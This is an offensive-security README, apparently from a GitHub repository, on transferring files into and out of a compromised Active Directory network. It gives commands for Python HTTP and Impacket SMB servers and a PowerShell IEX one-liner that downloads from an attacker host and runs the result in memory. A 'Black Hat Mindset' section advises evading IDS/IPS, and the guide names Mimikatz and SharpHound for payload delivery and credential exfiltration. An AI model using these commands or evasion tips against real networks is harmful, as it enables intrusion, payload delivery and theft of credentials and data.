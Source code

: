 # Active Directory Transferring Files README

This README covers techniques to move files into or out of a compromised AD environment, enabling payload delivery or data exfiltration.

## Table of Contents

- [Introduction](#introduction)
- [Setup and Prerequisites](#setup-and-prerequisites)
- [File Transfer Methods](#file-transfer-methods)
- [Black Hat Mindset](#black-hat-mindset)
- [Resources](#resources)

## Introduction

Transferring files in an AD environment is critical for delivering tools (e.g., `Mimikatz`, `SharpHound`) or exfiltrating sensitive data (e.g., hashes, credentials). This guide uses a Python HTTP server, PowerShell, and an Impacket SMB server to facilitate secure and efficient file transfers. Commands are performed from Linux or Windows hosts, assuming you have network access to the target.

## Setup and Prerequisites

- **Environment**: Linux host for Python and Impacket, Windows host for PowerShell.
- **Python**: Install on Linux (e.g., pre-installed on Kali) for the HTTP server.
- **Impacket**: Install on Linux (e.g., `pip install impacket`) for the SMB server.
- **PowerShell**: Run with privileges on Windows (right-click > "Run as Administrator").
- **Network Access**: Ensure the attacking host and target are on the same network or accessible via IP (e.g., 172.16.5.x).
- **Files**: Prepare files to transfer (e.g., `SharpHound.exe`) and place them in the hosting directory (e.g., `/home/administrator/Downloads/`).

## File Transfer Methods

Use these methods to transfer files into or out of the AD environment.

```bash
# Start Python HTTP server on port 8001 from Linux host
sudo python3 -m http.server 8001
```

```powershell
# PowerShell one-liner to download SharpHound.exe from HTTP server
IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')
```

```bash
# Start Impacket SMB server with credentials
impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/
```

## Black Hat Mindset

- **Keep It Simple**: Use lightweight servers like Python HTTP to avoid complex setup and detection.
- **Stay Undetected**: Transfer files in memory (e.g., `IEX`) or use SMB with minimal logging to evade IDS/IPS.
- **Secure Access**: Set up SMB with credentials to limit access and protect your foothold.
- **Maximize Efficiency**: Host multiple tools on the server to support various attack phases (e.g., enumeration, privilege escalation).

## Resources

- Python HTTP Server
- Impacket SMB Server
- PowerShell File Download
- AD File Transfer Techniques

